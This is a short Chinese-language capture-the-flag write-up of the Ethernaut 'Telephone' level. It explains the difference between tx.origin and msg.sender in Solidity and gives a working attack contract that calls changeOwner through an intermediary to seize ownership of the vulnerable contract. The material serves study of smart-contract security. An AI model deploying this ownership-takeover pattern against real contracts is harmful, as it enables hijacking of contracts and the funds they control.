 ```yaml
---
title:ethernaut NO.4
tags:Text
---
```


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

```

**主要考察对tx.orgin和msg.sender的区别的理解**

tx.orgin表示交易发起的外部账户地址。更具体地说，它表示的是最初创建整个交易序列的外部账户，而不是调用当前函数的账户；

msg.sender表示调用合约的账户；

**例如：Alice调用A合约执行B合约；对于B合约来说，msg.sender=A合约，而tx.orgin为Alice**

```solidity
contract Hack{
    constructor(address _target){
        Telephone(_target).changeOwner(msg.sender);
    }
}
```

这个为攻击合约，首先传入原合约的地址，然后利用Hack合约调用Telephone合约中的changeowner函数并将msg.sender（也就是我们）的地址作为参数传入changeowner中，对于原合约，我们就是tx.origin，而msg.sender为Hack函数



